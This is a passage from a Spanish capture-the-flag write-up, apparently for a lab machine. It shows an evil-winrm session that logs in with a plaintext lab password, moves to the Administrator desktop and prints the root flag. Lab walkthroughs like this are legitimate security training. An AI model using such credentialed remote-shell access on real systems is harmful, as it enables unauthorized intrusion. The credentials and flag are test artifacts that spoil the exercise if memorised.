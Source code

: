 Ahora tendriamos que volver a conectarnos para actualizar los permisos, dirigirnos al directorio personal del usuario `Administrator` y visualizar la segunda flag `root.txt`.

```bash
❯ evil-winrm -i 10.10.11.132 -u 'maria' -p 'W3llcr4ft3d_4cls'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maria\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
923cbfd8245771bc2a485f96fb451072
```


